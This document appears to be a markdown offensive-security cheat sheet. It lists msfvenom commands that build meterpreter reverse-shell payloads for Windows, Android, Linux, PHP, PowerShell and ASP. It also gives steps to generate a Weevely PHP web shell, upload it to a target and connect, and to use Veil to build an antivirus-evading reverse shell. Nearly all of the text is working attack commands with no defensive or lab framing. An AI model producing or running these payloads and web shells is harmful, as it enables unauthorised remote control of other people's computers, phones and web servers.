


## **Msfconsole**

### **💻 Windows Reverse Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe > shell.exe
```

---

### **📱 Android Reverse Shell**

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -o shell.apk
```

---

### **🐧 Linux Reverse Shell**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f elf > shell.elf
```

---

### **🌐 PHP Reverse Shell**

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f raw > shell.php
```

---

### **🖥️ Windows (PowerShell payload)**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f psh > shell.ps1
```

---

### **📄 ASP Reverse Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f asp > shell.asp
```

## **Weevely**

### **1. Payload generate**

```
weevely generate 1234 shell.php
```

---

### **2. Upload to target**

👉 Example:

http://target/uploads/shell.php

---

### **3. Connect (NO listener needed)**

```
weevely http://target/uploads/shell.php 1234
```

## **Veil**

```
sudo apt install -y veil
```

```
sudo /usr/share/veil/config/setup.sh --force –silent
```


After installation we will go into veil

Type veil then update



```
sudo veil
```

Evasion and Ordinance are tools

```
use 1 (1 for evasion)
```

```
list
```

```
use 15
```

```
set LHOST 192.168.184.222
```

```
generate
```

```
revshell (name of the exploit)
```

```
cd /var/lib/veil/output/source
```

```
ls
```



Now we have generated a payload in that